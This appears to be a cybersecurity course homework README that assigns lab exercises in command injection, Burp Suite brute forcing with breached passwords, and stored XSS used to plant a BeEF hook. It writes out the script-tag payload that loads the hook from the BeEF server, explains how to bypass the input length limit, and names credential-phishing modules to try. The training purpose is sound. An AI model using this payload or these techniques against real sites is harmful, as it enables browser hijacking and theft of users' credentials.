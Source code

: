 # Vulnerabilities-and-Hardening

In this homework scenario, you will continue as an application security engineer at Replicants. Replicants created several new web applications and would like you to continue testing them for vulnerabilities. Additionally, your manager would like you to research and test a security tool called BeEF in order to understand the impact it could have on the organization if Replicants was targeted with this tool.

Lab Environment
You will continue to use your Vagrant virtual machine for this assignment.

Topics Covered in Your Assignment

Web application vulnerability assessments
Injection
Brute force attacks
Broken authentication
Burp Suite
Web proxies
Directory traversal
Dot dot slash attacks
Beef
Cross-site scripting
Malicious payloads



Instructions
In this assignment, you will test three web application vulnerabilities. For each vulnerability you will be provided with the following:


Steps detailing how to setup and access the application.


A walkthrough explaining how the application is intended to work.


A task that will test the application for vulnerabilities.


Your goal is to determine if the application is vulnerable and provide mitigations.

Submission Guidelines
You will submit a document (Word or Google Docs) that contains the following for each web application:


Screen shots confirming the successful exploit.


Two to three sentences detailing recommended mitigation strategies.


When complete, submit the file on BCS.


Web Application 1: Your Wish is My Command Injection



Complete the following to set up the activity.


Access Vagrant and open a browser.


Navigate to the following webpage: http://192.168.13.25 and select the Command Injection option.


Alternatively, access the webpage directly at this page: http://192.168.13.25/vulnerabilities/exec/


Web Application 2: A Brute Force to Be Reckoned With



Complete the following steps to set up the activity.


Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.

This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.


If the user/password combination is correct, it will return a successful message.


If the user/password combination is incorrect, it will return the message, "Invalid credentials."




Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.


Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.


You've been provided with a list of administrators and the breached passwords:


List of Administrators


Breached list of Passwords




Hint: Refer back to the Burp Intruder activity 10_Brute_Force from Day 3 for guidance.




Deliverable: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.



Web Application 3: Where's the BeEF?



Complete the following to set up the activity.


When you ran docker-compose up, you also brought up a containerized instance of the BeEF Framework.


To access the BeEF User Interface (UI), navigate to http://127.0.0.1:3000/ui/panel.


When the BeEF webpage opens, login with the following credentials:


Username: beef


Password: feeb
The Browser Exploitation Framework (BeEF) is a practical client-side attack tool that exploits vulnerabilities of web browsers to assess the security posture of a target.


While BeEF was developed for lawful research and penetration testing, criminal hackers leverage it as an attack tool.


An attacker takes a small snippet of code, called a BeEF Hook, and determines a way to add this code into a target website. This is commonly done by cross-site scripting.


When subsequent users access the infected website, the users' browsers become hooked.

Once a browser is hooked, it is referred to as a zombie. A zombie is an infected browser that awaits instructions from the BeEF control panel.
The BeEF control panel has hundreds of exploits that can be launch against the hooked victims, including:

Social engineering attacks
Stealing confidential data from the victim's machine
Accessing system and network information from the victim's machine







BeEF includes a feature to test out a simulation of an infected website.


To access this simulated infected website, locate the following sentence on the BeEF control panel: To begin with, you can point a browser towards the basic demo page here, or the advanced version here.


Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.


Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/

The BeEF hook, which was returned after running docker-compose up was: http://127.0.0.1:3000/hook.js

The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>




When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.


Hint: Try right-clicking and selecting "Inspecting the Element".



Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:


Social Engineering >> Pretty Theft


Social Engineering >> Fake Notification Bar


Host >> Get Geolocation (Third Party)
